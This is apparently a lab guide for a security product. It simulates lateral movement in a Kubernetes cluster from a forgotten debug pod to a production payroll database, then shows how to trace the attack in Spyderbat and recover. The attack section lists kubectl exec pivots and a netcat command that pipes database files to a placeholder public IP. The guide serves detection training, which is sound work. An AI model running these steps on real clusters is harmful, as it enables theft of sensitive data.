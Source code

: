 # Lateral Movement Within the Cluster

This scenario shows an attacker accessing one portion of a cluster, and using the access in that namespace to move to another and exfiltrate data.

## Running the Exploit

For this scenario, we are going to use some debugging resources left over by Bob, a developer who decided he needed to be able to get direct access to the RSVP app to debug it. Since he forgot to clean up after solving the bugs, there is now an extra pod in the build namespace with some convenient developer tools.

Let's exec into the developer pod to begin.

```sh
kubectl exec -it -n lateral-movement-build bobdev -- /bin/bash
```

Let's take a look around to see what we can do:

```sh
id
```
```
uid=0(root) gid=0(root) groups=0(root)
```
```sh
sudo -l
```
```
bash: sudo: command not found
```

```sh
ps -aux
```
```
bash: ps: command not found
```

Looks like a pretty locked down container. Let's use a one-liner to check what is running on it instead of `ps`:

```sh
for pid in $(ls /proc | grep -P '[0-9]'); do cat /proc/$pid/cmdline 2>/dev/null | tr '\0' ' ' && echo; done
```

```
sleep infinity 
/bin/bash 
/bin/bash
```

It looks like this container isn't doing anything (aside from our shell); it must just be for debug access.

Taking a look at the bash history, it looks like Bob used kubectl to get into another namespace:

```sh
history
```
```
    1  ls
    2  kubectl config view
    3  kubectl get pods -A
    4  kubectl get pods -n lateral-movement-prod
    5  kubectl describe pods -n lateral-movement-prod
    6  kubectl exec -n lateral-movement-prod payrolldb-6f7996c855-vrmrt -- hostname
    7  id
    8  sudo -l
    9  ps -aux
   10  for pid in $(ls /proc | grep -P '[0-9]'); do cat /proc/$pid/cmdline 2>/dev/null | tr '\0' ' ' && echo; done
   11  history
```

It looks like the deployment he was accessing is still here:

```sh
kubectl get pods -n lateral-movement-prod
```
```
NAME                         READY   STATUS    RESTARTS   AGE
payrolldb-6cd4447758-2zcq4   1/1     Running   0          3m9s
```

Let's follow in Bob's footsteps.

```sh
kubectl exec -it -n lateral-movement-prod $(kubectl get pods -n lateral-movement-prod -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```

Now, we have ended on a pod in the production namespace, and a database pod on top of that. Let's take a look around:

```sh
whoami
```
```
root
```
```sh
ls
```
```
bin  boot  data  dev  docker-entrypoint-initdb.d  etc  home  js-yaml.js  lib  lib32  lib64  libx32  media  mnt	opt  proc  root  run  sbin  srv  sys  tmp  usr	var
```
```sh
ls data/
```
```
configdb  db
```

It looks like we have full access to the database:

```sh
ls -la data/db
```

From here, we can directly extract the data we want. For example, using netcat: on a different publicly accessible computer with open ports (such as the jumpserver set up for the external lateral movement demo), run this command:

```sh
# on a separate attacker-controlled server
nc -l 1234 > download
```

Then run this in the pod:

```sh
apt update && apt install netcat
```
```sh
# make sure to edit this with the correct PUBLIC_IP of the listening server
cat data/db/collection-0-*.wt | nc PUBLIC_IP 1234
```

> <i class="fa fa-circle-info"></i> **Note:**
> 
> This command will not close on its own. After a few seconds, use `Ctrl-C` to stop the command.

On the public server, you should now have the collection-0 file in `download`.

```sh
ls -l
```
```
total 20
-rw-r--r--. 1 ec2-user ec2-user 20480 Aug 21 21:48 download
```

## Investigation

Now that we have demonstrated lateral movement within the cluster, let's see what this looks like in Spyderbat. This test should trigger two Spydertraces - one for each container we have accessed. On the Spyderbat Console's Dashboard page, navigate to the Security tab. Under "Recent Spydertraces with a score > 50", there are two new traces, likely labeled `container_shell` or `root_shell` (or `falco_flag`, if you have the Falco integration installed). Select these two traces and click "Start Process Investigation" to start investigating these two traces together.

![The original messy trace](./lateral_movement_messy.png)

At first, the resulting graph may seem like a mess, but it is easy to clean up. First, let's make sure that we have all of the necessary information by zooming in and right-clicking on the root bash processes inside of each container, then selecting "Add X Descendants". You may also need to select "Add X Descendant Connections" if available.

![The right-click menu for one of the bash processes](./lateral_graph_editing.png)

Next, we can take a look at bash's immediate children. It is clear from the tree connections that the `apt` processes have many descendants. In this case, they are mostly irrelevant; just extra processes used in the packaging tool. To remove them, right-click the `apt` processes, and select "Remove X Descendants".


![An example graph of this exploit.](./lateral_movement_process_graph.png)

To further help understand the attack, we can use the bash command viewer: click on the bash process inside each pod and expand the viewer in the top right corner.

![An example of the bash viewer](./bobdev-bash-viewer.png)

With the noise out of the way, we can now more clearly see the sequence of events. On the leftmost machine, the attacker accessed the bobdev container and ran some kubectl commands. Looking at the command for the last kubectl process, we can see an exec into the payrolldb container.

![The details for the kubectl exec process](./kubectl_exec.png)

From there, the attacker explored their access, then installed a data exfiltration command and ran it, connecting to another IP. To ensure that you have the whole picture, you can right-click the `nc` connection and try adding the peer connection, or run a search for the remote IP address.

Once you have a graph with all the information you are interested in, you can save it and share it with other users in your organization by clicking "Copy Investigation Link" at the top of the graph view.

## Next Steps

With the data gathered in this investigation, we can now prepare a few recovery steps:

- Determine what data was in the file exfiltrated with the `nc` command.
- Remove the development container that Bob left.
- Check for any other containers that should not exist in the production environment. Spyderbat's Search feature could help with this - search for Containers where the image matches `*devops*`, for example.
- Rotate the kubectl access keys used to access the devops container and the payroll container.
- Revise debugging procedures for the affected applications.
- [Set up a Spyderbat cluster policy](https://docs.spyderbat.com/tutorials/guardian/how-to-put-guardrails-around-your-k8s-cluster-spyctl) to prevent unauthorized pods and images from being run in the cluster

## Further Reading

- [A detailed overview of Spyderbat's Search tool - Spyderbat Documentation](https://docs.spyderbat.com/concepts/search)
- [Guardian and Interceptor Policies - Spyderbat Documentation](https://docs.spyderbat.com/concepts/guardian)
- [How to Lock Down Your Workloads With Guardian Policies Using Spyctl - Spyderbat Documentation](https://docs.spyderbat.com/tutorials/guardian/how-to-lock-down-your-critical-workloads-with-policies-spyctl)

